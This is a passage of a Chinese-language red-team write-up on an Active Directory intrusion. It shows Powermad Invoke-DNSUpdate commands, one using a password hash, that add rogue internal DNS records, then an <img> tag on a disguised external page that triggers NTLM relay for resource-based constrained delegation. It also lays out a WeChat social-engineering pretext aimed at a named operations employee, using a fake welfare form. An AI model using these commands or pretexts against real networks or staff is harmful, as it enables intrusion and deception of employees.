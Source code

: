 ### 攻击准备

Internet选项，安全设置中的默认配置如下：

![image-20211012161707194](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20211012161708.png)

​	这代表如果请求的域名在域内DNS中，则会自动使用凭据进行身份认证，而DNS记录只要是认证后的用户都有权限添加，那么我们就可以尝试这种攻击思路，我们已经有了域凭据，只需使用Powermad中的`Invoke-DNSUpdate.ps1`，即可添加DNS记录，命令如下：

目标机器：

```
Invoke-DNSUpdate -DNSType A -DNSName evildns -DNSData 10.0.1.1
```

使用Hash：

```
Invoke-DNSUpdate -DNSType A -DNSName evildns -DNSData 10.0.1.1 -Username testuser -Realm test.com -Hash xxxxxxxxxxxxx
```

​	所以，我们添加了两条记录，一条为`welfare.xxx.com`，另一条为`test.xxx.com`，

`welfare.xxx.com`指向外网VPS，`test.xxx.com`指向中继机器(也就是开启ntlmrelayx的机器)

在外网VPS上启动一个临时WEB服务，并经过一定的伪装，在HTML中插入`<img>`标签

```
<img src="http://test.xxx.com/">
```

这样即可出发HTTP的relay请求，不需要签名。

### 基于资源的约束委派利用

​	然后就是实施定向攻击目标运维人员，扩大战果。

#### 诱导人员点击链接

​	还记得「上」篇，我们在已经丢失权限的个人PC机器搜集到的高价值资料吗？在这里可以派上一定的用场，我们得到了企业的通讯录，当然重点关注的是企业的网络、运维部的人员，发现上面将几台机器拉入域的用户`zhangsan`就是运维部的人员，那么得到了他的手机号之后，又可以利用社会工程学做很多文章了。

​	而此次，我们不需目标点击木马，只需他点击我们构建的恶意WEB服务，也就是一条链接，即可拿到这几台机器的权限。

​	我们不必去寻找一个WEB服务，况且现在也没有已控WEB应用，我们就自己构建临时的WEB服务，现在已经有了内网DNS记录，可以直接添加对应人的微信，伪造一个WEB页面，让他下载一个统计表。

然后把下面的海报转发到朋友圈，营造一种我就是目标公司员工的细节，目标公司的LOGO我用Google代替。

​	**因为我们都知道，添加好友之后，我们做的第一节事情就是查看对方的朋友圈，抓住这个心理，潜移默化的奠定成功的基础。**

![image-20211111132215736](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20211111132216.png)

​	接着配合福利登记表，让其填写完毕之后发送回来，我们可以预先填进去几个姓名，这些直接从LDAP中的用户组找几个填进去即可。

![image-20211111132304617](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20211111132305.png)

接着添加其微信发送准备的话术即可。
